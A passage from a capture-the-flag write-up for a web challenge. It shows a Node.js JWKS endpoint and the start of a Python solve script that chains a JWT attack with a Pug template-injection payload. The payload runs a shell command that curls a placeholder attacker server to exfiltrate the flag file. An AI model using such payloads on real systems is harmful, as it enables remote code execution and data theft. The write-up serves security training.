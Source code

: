 The public key is exposed on the common `/jwks.json` endpoint.

```js
router.get("/jwks.json", async (req, res) => {
    try {
        const publicKey = await fsPromises.readFile(path.join(__dirname, "..", "public_key.pem"), "utf8");
        const publicKeyObj = crypto.createPublicKey(publicKey);
        const publicKeyDetails = publicKeyObj.export({ format: "jwk" });

        const jwk = {
            kty: "RSA",
            n: base64urlEncode(Buffer.from(publicKeyDetails.n, "base64")),
            e: base64urlEncode(Buffer.from(publicKeyDetails.e, "base64")),
            alg: "RS256",
            use: "sig",
        };

        res.json({ keys: [jwk] });
    } catch (err) {
        res.status(500).json({ message: "Error generating JWK" });
    }
});
```

All that's left is to modify our username with a Pug SSTI payload, e.g. from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

I automated the whole process with detailed comments explaining each step. You just need to update the `BASE_URL`, `JWT_TOOL_PATH` and the `ATTACKER_SERVER` in the `SSTI_PAYLOAD`.

### solve.py

```python
import requests
import subprocess
from base64 import urlsafe_b64decode
from Crypto.PublicKey import RSA

# Constants for challenge
BASE_URL = 'https://catclub-0.ctf.intigriti.io'
REGISTER_URL = f'{BASE_URL}/register'
LOGIN_URL = f'{BASE_URL}/login'
JWK_URL = f'{BASE_URL}/jwks.json'
CAT_URL = f'{BASE_URL}/cats'
JWT_TOOL_PATH = f'/home/crystal/apps/jwt_tool'

SSTI_PAYLOAD = "#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad('child_process').exec('curl https://ATTACKER_SERVER/?flag=$(cat /flag* | base64)')}()}"

def base64url_decode(data):
    return urlsafe_b64decode(data + b'=' * (-len(data) % 4))

# Register a new user
def register_user(username, password):
    print(f"[*] Attempting to register user: {username}")
    response = requests.post(
        REGISTER_URL, data={"username": username, "password": password})

    if response.status_code == 200:
        print(f"[*] Registered user: {username}")
    else:
        print(f"[!] Failed to register user: {response.text}")
    return response.status_code == 200

```